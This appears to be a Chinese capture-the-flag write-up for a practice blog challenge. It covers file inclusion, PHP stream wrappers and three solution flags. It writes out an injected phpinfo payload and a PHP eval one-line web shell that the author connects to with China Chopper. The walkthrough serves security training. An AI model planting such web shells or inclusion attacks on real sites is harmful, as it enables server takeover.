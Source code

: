 # Cody's First Blog

运用到文件包含漏洞的使用，以及PHP伪协议的知识。

### Flag1

![](/media/1dsaf1231d.png)

提交评论得到第一个flag（这里提交的内容包含&lt;?php都会弹出flag）

![](/media/12sa124ar13r.png)

**Flag1：**

**^FLAG^70fb6cb5f09fce5fb32c79e83f932dd7325e72bca4a060cd2da8c632dd838a58$FLAG$**

响应包有提到评论需要审核

回到首页，查看源代码发现如下注释：

![](/media/12ewd12sad1.png)

&lt;a href="?page=admin.auth.inc"&gt;Admin login&lt;/a&gt;

跟过去

![](/media/qwdqw21edsag.png)

是一个管理员的登录入口，先把他丢到burpsuit里面爆破，然后继续寻找线索（爆破了一个小时什么也没有，应该是烟雾弹）

### Flag2

注意到：[http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc](http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc)

我们对page参数进行修改一下看看

![](/media/eghgjt65ufg.png)

显然这是一个文件包含了，那思路就逐渐清晰，先扫一波存在的文件\(分析结构应该为xx.inc.php文件，这里并不能跨目录包含，已经限制了文件包含的路径\)源代码已经强制在后面添加了.php后缀。（这里方便筛选，包含成功的不会出现字符串Warning，这一条件可以作为筛选项）

![](/media/fafher45uhgf.png)

得到的结果大概就这三个。

访问一下admin.inc这个页面

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

页面最底下有一个flag

^FLAG^3b3811daa28ae899032343b43e155238cdf7ae8c921f78d0494813a3dcad0e5c$FLAG$

不仅如此，注意到上面有确认评论的选项，尝试确认一下评论。

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image015.png)

回到主页我们惊喜的发现，评论插进了主页，这里就有一个骚思路了，那就是对index文件进行包含，从而达到插入的命令以PHP语句来执行。

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image017.jpg)

### Flag3

插入&lt;?php phpinfo\(\); ?&gt;，并且确认评论

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image019.jpg)

虽然在页面上没有看到我们插入的内容，但是我们尝试用php伪协议

**PHP伪协议**

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen\(\)、 copy\(\)、 file\_exists\(\) 和 filesize\(\) 的文件系统函数。 除了这些封装协议，还能通过 stream\_wrapper\_register\(\) 来注册自定义的封装协议。

[https://www.cnblogs.com/lgf01010/p/9595391.html](https://www.cnblogs.com/lgf01010/p/9595391.html)

**目录**

[![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image021.jpg "目录")](http://image.3001.net/images/20180827/1535362079_5b83c41fbe910.png)

URL如下：

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image023.jpg)

我们惊喜的发现，插入的PHP代码被解析并且执行了。

下面就是直接插入一句话

&lt;?php @eval\($\_POST\['cmd'\]\); ?&gt;

前往admin.inc确认评论

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image025.jpg)

然后直接用菜刀连接

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image027.jpg)

最后一个flag在index.php注释里面

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image029.jpg)

^FLAG^7c0e45cb6dbb53a134e5627e432a2a660192cdf3fe1dcf5e06b91886594e35e4$FLAG$

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image031.jpg)

自此全部完成

